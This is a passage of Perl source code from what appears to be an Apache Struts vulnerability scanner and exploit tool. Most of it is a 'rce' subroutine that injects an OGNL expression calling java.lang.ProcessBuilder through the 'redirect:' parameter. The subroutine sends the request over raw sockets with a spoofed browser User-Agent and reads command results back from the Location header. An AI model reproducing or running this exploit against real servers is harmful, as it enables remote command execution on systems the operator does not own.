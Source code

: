               else { outp("$id Apache Struts Vuln Not Found!\n",2); }
              $socket->close();
            }
            else { outp("$id Socket Error #1",2); }
            last;
          }
          else { $socket->close(); }
        }
        else { outp("$id Socket Error #0",2); }
        outp("$id No Struts Found!",2);
        }
      }
      #else { outp("SOCK: $sock",2); $socket->close(); } extra debug
      else { ouutp("$id Doesnt match filter!",2);$socket->close(); }
     # }
    }
    }
    sub rce {
      my $cmd = $_[1];
      $cmd =~ s/ /'\,'/g;
      $cmd = "'$cmd'";
      #print "cmd: $cmd\n";
      my $socket= IO::Socket::INET->new(PeerAddr=>"$_[0]:$ports[0]",Proto=>'tcp',Timeout=>$timeout);
      if ($ssl) { $socket= IO::Socket::SSL->new(PeerHost => "$_[0]",PeerPort => "$ports[0]",Timeout=>$timeout); }
      if ($socket) {
        my $p = $paths[0];
        my @split = ();
        my $c = "%25{(new+java.lang.ProcessBuilder(new+java.lang.String[]{$cmd})).start()}";
        my $check = "GET $p?redirect:$c";
        my $full = "($_[0]:$ports[0]$p?redirect:$c)";
        #print "check: $check\n";
        my $req = " HTTP/1.1\r\n"
      . "Host: $_[0]\r\n"
      . "Referer: http://$_[0]\r\n"
      . "User-Agent: Mozilla/5.0 (Windows NT 6.1) AppleWebKit/534.24 (KHTML, like Gecko) Chrome/11.0.696.68 Safari/534.24\r\n"
      . "Accept: application/xml,application/xhtml+xml,text/html;q=0.9,text/plain;q=0.8,image/png,*/*;q=0.5\r\n"
      . "Accept-Encoding: *\r\n"
      . "Accept-Language: en-US;q=0.6,en;q=0.4\r\n"
      . "Accept-Charset: windows-1251,utf-8;q=0.7,*;q=0.3\r\n"
      . "Connection: close\r\n\r\n";
        print $socket $check.$req;
        my $sock = "";
        #print <$socket>;
        while (<$socket>) {
          if ($_ =~ /Location/)  { @split = split('/',$_); }
        }
        my $match = "";
        if ($split[0] and $split[0] =~ /http/) {
          $match = $split[$#split];
        }
        if (!$match) { $match = "error_no_results"; }
        $match =~ s/\n//g;
        $match =~ s/\r//g;
        outp("Result: $match",1,$full);
        $socket->close();
      }
    }
